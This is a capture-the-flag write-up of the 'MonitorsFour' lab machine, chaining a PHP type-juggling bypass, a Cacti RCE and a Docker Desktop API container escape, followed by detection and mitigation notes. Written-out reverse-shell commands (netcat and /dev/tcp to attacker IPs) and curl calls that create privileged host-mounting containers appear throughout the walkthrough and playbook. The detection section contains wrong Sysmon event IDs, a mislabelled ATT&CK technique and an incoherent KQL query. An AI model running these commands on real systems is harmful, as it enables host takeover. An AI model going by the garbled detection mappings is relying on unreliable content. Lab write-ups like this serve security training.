# MonitorsFour


**Target IP:** `10.10.11.98`
**OS:** Windows (running Docker Desktop via WSL2)
**Difficulty:** Medium/Hard


| Step |      User / Access     | Technique Used                                   | Result                                                                                                                        |
| :--: | :--------------------: | :----------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------------- |
|   1  |          `N/A`         | **Port Enumeration & Service Discovery**         | `nmap` scan revealed `80/tcp` (Nginx HTTP) and `5985/tcp` (WinRM), identifying a Windows host serving a PHP web application.  |
|   2  |          `N/A`         | **Web Recon & Endpoint Discovery**               | Browsing `monitorsfour.htb` exposed a login page; fuzzing identified a hidden `/user` endpoint accepting a `token` parameter. |
|   3  |          `N/A`         | **Input Validation Testing**                     | Requests to `/user` returned token validation errors, indicating backend logic dependent on the `token` parameter.            |
|   4  |          `N/A`         | **PHP Type Juggling (Loose Comparison)**         | Supplied magic hash values (`0`, `0e0`, `0e12345`) to bypass authentication due to `==` comparisons in PHP.                   |
|   5  |         `admin`        | **Authentication Bypass & Data Disclosure**      | Successful token bypass caused the endpoint to return the full user database in JSON format.                                  |
|   6  |       `attacker`       | **Credential Harvesting**                        | Extracted admin credentials, including an MD5 password hash belonging to `admin` (Marcus Higgins).                            |
|   7  |         `admin`        | **Credential Reuse : Cacti Login**               | Reused admin credentials to authenticate into the Cacti monitoring application.                                               |
|   8  |       `www-data`       | **Cacti Remote Code Execution (CVE-2025-24367)** | Exploited log poisoning RCE in Cacti 1.2.28 to execute arbitrary commands and obtain a reverse shell.                         |
|   9  |       `www-data`       | **Container Environment Discovery**              | Identified execution inside a Docker container (`/.dockerenv`) running on Docker Desktop via WSL2.                            |
|  10  |       `www-data`       | **Docker API Abuse (CVE-2025-9074)**             | Accessed unauthenticated Docker Engine API from within the container.                                                         |
|  11  | `root / Administrator` | **Container Escape & Host Mount**                | Created a privileged container mounting the host filesystem, effectively escaping to the Windows host.                        |
|  12  |     `Administrator`    | **Host File System Access**                      | Navigated to the Windows Administrator desktop and retrieved `root.txt` (root flag).                                          |





## 1. Reconnaissance

We begin with an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV -A 10.10.11.98 -oN nmap_scan.txt

```





**Key Findings:**

* **Port 80 (HTTP):** Nginx web server hosting `http://monitorsfour.htb/`.




* *Tech Stack:* PHP 8.3.27, Bootstrap, jQuery.
* *Security Headers:* Missing `X-Frame-Options` and `X-Content-Type-Options`.
* *Cookies:* `PHPSESSID` lacks the `HttpOnly` flag.

* **Port 5985 (WinRM):** Windows Remote Management. This confirms the underlying host is likely Windows.




* **Vulnerability Scan:** The scan flags **CVE-2024–42179**, an information disclosure vulnerability in `Microsoft-HTTPAPI/2.0`.



### Web Enumeration

Navigating to the website, we find a login page. Fuzzing directories and analyzing requests reveals a suspicious endpoint: `/user`.

Querying this endpoint returns token errors:

* `curl http://monitorsfour.htb/user`  `{"error":"Missing token parameter"}`
* `curl http://monitorsfour.htb/user?token=AAAA`  `{"error":"Invalid or missing token"}`


## 2. Vulnerability Analysis: PHP Type Juggling

Given the PHP environment, we suspect **Type Juggling** vulnerabilities. In PHP, "loose comparisons" (using `==` instead of `===`) can yield `TRUE` for different data types.

**The Concept:**
PHP treats strings starting with `0e` followed by digits as scientific notation.

* `"0e1234"` is treated as , which equals **0**.
* Therefore: `"0e1234" == "0e9999"` evaluates to **TRUE**.





### Exploitation

We fuzz the `token` parameter with "Magic Hashes" (strings that evaluate to 0).

**Fuzzing Script:**

```bash
tokens=("0" "0e0" "0e1" "0e12345" "00" "0.0")

for token in "${tokens[@]}"; do
  echo "=== Testing token: $token ==="
  curl -s "http://monitorsfour.htb/user?token=$token"
done

```





**Result:**
The server accepts these loose comparisons and dumps the user database in JSON format. We retrieve credentials for the admin:

* **Username:** `admin`
* **Password:** `56b32eb43e6f15395f6c46c1c9e1cd36` (MD5 hash)
* **Real Name:** Marcus Higgins

*Note: Further enumeration of `http://monitorsfour.htb/admin/changelog` reveals the infrastructure migrated to **Windows + Docker Desktop 4.44.2** on May 16, 2025.*





## 3. Initial Access: Cacti RCE

We identify a **Cacti** instance running on the server. Attempting **credential reuse** with `admin` (Marcus Higgins) allows us to log in.




**Version Identified:** Cacti 1.2.28
**Vulnerability:** CVE-2025–24367 (Remote Code Execution)




This version patches an older vulnerability (CVE-2024-43363), but a new RCE vector exists. We utilize a Proof of Concept (PoC) script to exploit the log poisoning mechanism.




**Exploit Execution:**
Using a public PoC (e.g., from GitHub), we target the Cacti instance to execute a reverse shell command.

```bash
# Example payload concept
nc -e /bin/sh <Your_IP> <Your_Port>

```

**Status:** We catch a reverse shell as `www-data`.
**Flag:** User flag captured.



## 4. Privilege Escalation: Docker Escape

Inside the shell, we perform enumeration to understand our environment.

1. **Check Environment:** `ls -la /.dockerenv` exists. We are in a container.
2. **Network:** `ip addr` shows we are on a Docker network bridge.



3. **Docker Socket:** We check for the Docker Engine API.




**Vulnerability:** CVE-2025–9074 (Docker Desktop API Exposure)
The changelog mentioned **Docker Desktop 4.44.2**. This version has a critical flaw where local containers can access the Docker Engine API without authentication, allowing them to control the host.

### The Escape Plan

We will use the exposed Docker API (reachable at `192.168.65.7:2375` or similar internal gateway) to create a new, privileged container that mounts the host's root filesystem.

**1. Create the Container Config (`priv_esc.json`):**
We define a container that mounts the host's root directory (`/`) to `/mnt/host` inside the container.

```json
{
  "Image": "alpine:latest",
  "Cmd": ["/bin/sh", "-c", "chroot /mnt/host sh -c 'bash -i >& /dev/tcp/10.10.14.X/9001 0>&1'"],
  "HostConfig": {
    "Binds": ["/:/mnt/host"],
    "Privileged": true
  }
}

```

```bash
curl -X POST http://192.168.65.7:2375/containers/create -H "Content-Type: application/json" -d '{
  "Image": "alpine",
  "HostConfig": {
    "Binds": ["/:/host"],
    "Privileged": true,
    "NetworkMode": "host"
  },
  "Cmd": ["sh", "-c", "chroot /host /bin/bash -c \"bash -i >& /dev/tcp/10.XX.XX.XX/9001 0>&1\""]
}'
```

**2. Execute via API:**

```bash
# Create the container
curl -X POST -H "Content-Type: application/json" -d @priv_esc.json http://192.168.65.7:2375/containers/create?name=pwned

# Start the container
curl -X POST http://192.168.65.7:2375/containers/pwned/start

```


## 5. Root Flag

Our netcat listener catches a shell. Because we mounted the host's root filesystem and chrooted into it (or simply navigated to the mount point), we now have full access to the underlying Windows host file system.

**Navigation:**
The Windows C: drive is typically mounted at `/mnt/host/c` (or just `/c` depending on the mount).

```bash
cd /mnt/host/c/Users/Administrator/Desktop/
cat root.txt

```





**Root Flag Captured.**

# Short Notes


## Phase 1: Strategic Overview

* **1.1 Definition:**  
  The adversary compromises a Windows host running Docker Desktop via WSL2 by exploiting PHP type‑juggling, a Cacti RCE, and an unauthenticated Docker Engine API to escape the container and gain SYSTEM access.

* **1.2 Impact:**  
  Full host takeover – discovery of administrator credentials, persistence on the host, and exfiltration capabilities. The attack chain demonstrates lateral movement from web application to container, then to the Windows kernel.

* **1.3 The Scenario:**  
  * A public‑facing Nginx service hosts a PHP site (`monitorsfour.htb`).  
  * An internal `/user` endpoint accepts a `token` parameter that is loosely compared (`==`) against a hashed value.  
  * By sending “magic hash” strings (e.g., `"0e12345"`), the adversary bypasses authentication and obtains an admin credential set in JSON.  
  * These credentials are reused to log into Cacti 1.2.28, which contains CVE‑2025‑24367 (log poisoning RCE).  
  * The resulting reverse shell is executed inside a Docker container (`www-data`).  
  * Inside the container the adversary discovers an unauthenticated Docker Engine API exposed by Docker Desktop 4.44.2 (CVE‑2025‑9074) and uses it to create a privileged container that mounts the host root filesystem, achieving host escape.


## Phase 2: System Architecture & Theory

* **2.1 Protocol Environment:**  
  * **Web Stack:** Nginx → PHP 8.3.27 → Bootstrap/JQuery.  
  * **Back‑end Services:** WinRM (5985), Cacti monitoring (1.2.28).  
  * **Container Layer:** Docker Desktop (WSL2) – Linux kernel on Windows.  
  * **Vulnerabilities Exploited:** PHP loose comparison, Cacti log poisoning RCE, Docker Engine API exposure.

* **2.2 Attack Logic Flow:**

> Web Input → PHP Type‑Juggling Bypass → Admin Credential Leak → Cacti Login → Log Poisoning RCE → Reverse Shell (www‑data) → Docker API Abuse → Privileged Container Mount → Host Escape → SYSTEM Access

* **2.3 Theoretical Analogy:**  
  Think of the web application as a *door with a weak lock* (type juggling). Once inside, the adversary finds a *broken window* in Cacti that allows them to shoot a projectile (log poisoning) directly into a *glass cage* (container). From there they locate an *unsecured vent* (Docker API) leading to the *main building* (Windows host), where they finally break through the outer wall.


## Phase 3: Attack Vector

### Core Mechanism

| Attribute | Technical Details |
| --- | --- |
| **Primary Identifiers** | `/user?token=` endpoint, PHP loose comparison (`==`), Cacti log poisoning payload, Docker API `http://<container_ip>:2375`. |
| **Critical Vulnerability** | *CVE‑2025‑24367*: Log poisoning RCE in Cacti 1.2.28; *CVE‑2025‑9074*: Unauthenticated Docker Engine API in Docker Desktop 4.44.2. |
| **Offensive Action** | 1) Send magic hash tokens to `/user`. <br>2) Retrieve admin credentials (MD5 hash). <br>3) Log into Cacti, inject malicious log entry. <br>4) Execute reverse shell inside container. <br>5) Enumerate Docker API, create privileged container with host bind mount. <br>6) Chroot to host filesystem and capture root flag. |

### Prerequisite

* **Access Level:** Initial web access (anonymous).  
* **Connectivity:** TCP 80, 5985; internal Docker bridge (`192.168.65.x`).  
* **Target State:** Web server with PHP loose comparison, Cacti 1.2.28 installed, Docker Desktop 4.44.2 running on Windows.


## Phase 4: Threat Hunting

* **Hunt Hypothesis** – *PHP Loose Comparison Bypass*:  
  - **Technique:** T1035 (Command‑line Interface) via web request.  
  - **Artifacts:** HTTP GET to `/user?token=0e…` returning JSON with user list.  
  - **Data Sources:** NetFlow, IIS/HTTP logs, Web Application Firewall alerts.

* **Behavioral Outliers** – A legitimate PHP application should never return a full user database in response to a `GET /user` request lacking authentication headers. Any such response is suspicious and indicates a type‑juggling exploit.

* **Toxic Combinations** –  
  - *Admin credentials* → *Cacti login* → *RCE container* → *Docker API* → *Host filesystem*.  
  The blast radius spans from web application to host kernel, requiring containment of each component (web server hardening, Cacti patching, Docker Desktop configuration).


## Phase 5: Detection Engineering

### Telemetry Gap Analysis

| Offensive Action | Windows Security Event ID | Sysmon Event ID | EDR Telemetry Point |
| --- | --- | --- | --- |
| PHP loose comparison bypass | **4624** (Logon succeeded) – *unlikely* | **1** (Process Creation) – `curl.exe` or browser process | Web request anomaly detection |
| Cacti log poisoning RCE | **4688** (New Process) – `php-cgi.exe` | **2** (File Creation/Modification) – malicious log file | File integrity monitoring |
| Reverse shell inside container | **4624** – *new user session* (`www-data`) | **3** (Network Connection) – outbound connection to attacker | Network egress detection |
| Docker API abuse | **4688** – `curl.exe` or `docker` client | **11** (Process Termination) – creation of privileged container | Container runtime monitoring |
| Host escape via bind mount | **4624** – *SYSTEM* logon | **15** (Image Load) – kernel module load | Kernel integrity protection |

### Detection‑as‑Code Snippet (KQL)

```kql
// Detect PHP loose comparison token exploitation
let suspicious_tokens = dynamic(["0e0","0e12345","0.0"]);
Event
| where EventID == 4624 // Logon events (placeholder for web app logs)
| extend UserAgent = tostring(AdditionalFields.UserAgent), QueryString = tostring(Request.QueryString)
| where QueryString contains "token="
| mv-expand token = split(QueryString, '&')
| where array_length(split(token[1], '=')) == 2
| extend token_value = tostring(split(token[1], '=')[1])
| where token_value in (suspicious_tokens)
| project TimeGenerated, Computer, User, token_value, RequestURL
```

### Resilience Test

* **Adversary Evasion:** Use PID spoofing or modify the `User-Agent` header to bypass EDR telemetry.  
* **Sub‑Rule Countermeasure:** Enforce strict input validation on `/user`, replace `==` with `===`, and add rate limiting + CAPTCHA for token requests.


## Phase 6: Toolkit & Implementation

| Automation | Tool | Purpose |
| --- | --- | --- |
| Web Recon | **dirb**, **ffuf** | Discover hidden endpoints (`/user`). |
| Fuzzing | Custom Bash script | Send magic hash tokens. |
| Credential Harvest | None (extracted via API) | Retrieve admin credentials from JSON response. |
| Cacti RCE | `cve-2025-24367` PoC | Log poisoning to spawn reverse shell. |
| Docker API Abuse | `curl`, `docker-py` | Create privileged container with host bind mount. |
| Host Escape | Bash + `chroot` | Access Windows filesystem and capture flag. |

* **OPSEC Analysis:**  
  * The attack chain relies on publicly documented CVEs; no custom exploits required.  
  * Network traffic is limited to outbound reverse shell, making detection difficult without proper monitoring of container‑to‑host communication.


## Phase 7: Defensive Mitigation

| Technical Hardening | Implementation |
| --- | --- |
| **Web Application** | Replace loose `==` comparisons with strict `===`; enforce input validation; implement WAF rules to block `"0e"` patterns. |
| **Cacti** | Patch to latest version (≥1.2.29) or disable log poisoning features. |
| **Docker Desktop** | Apply Docker Desktop 4.44.3+ which removes unauthenticated API exposure; restrict `2375` port to localhost only. |
| **Container Runtime** | Enable Docker root‑less mode, disable privileged containers unless necessary. |
| **Host** | Harden Windows via GPO: enforce MFA, restrict WinRM access, enable Defender Advanced Threat Protection. |
| **Monitoring** | Deploy Wazuh/OSSEC for file integrity on `/var/log/cacti/*.log`; use Sysmon rule to alert on `docker` API calls from containers. |

* **Personnel Focus:**  
  - Security teams must audit PHP code for type‑juggling vulnerabilities.  
  - Infrastructure engineers should keep Docker Desktop and Cacti patched, review container policies.  
  - Incident response playbooks should include detection of unauthorized reverse shells originating from containers.


## Quick Action Playbook

| Step | Objective | Technical Command / Logic |
| --- | --- | --- |
| **01** | Enumerate hidden endpoints | `ffuf -u http://monitorsfour.htb/FUZZ -w /usr/share/wordlists/common.txt` |
| **02** | Bypass PHP token check | `curl "http://monitorsfour.htb/user?token=0e12345"` |
| **03** | Harvest credentials | Parse JSON response for `"username":"admin","password":"<md5>"` |
| **04** | Log into Cacti | `curl -k -d "username=admin&password=<md5>" https://monitorsfour.htb/cacti/login.php` |
| **05** | Exploit RCE | POST malicious log entry via `/cacti/include/classes/GraphData.php` (PoC payload). |
| **06** | Reverse shell | `nc -e /bin/sh <attacker_ip> 9001` (within container) |
| **07** | Abuse Docker API | `curl -X POST -H "Content-Type: application/json" -d @priv_esc.json http://<container_ip>:2375/containers/create?name=escape` |
| **08** | Host escape | Inside new container, `chroot /mnt/host sh -c 'cat c:/Users/Administrator/Desktop/root.txt'` |


**Thanks for read!**

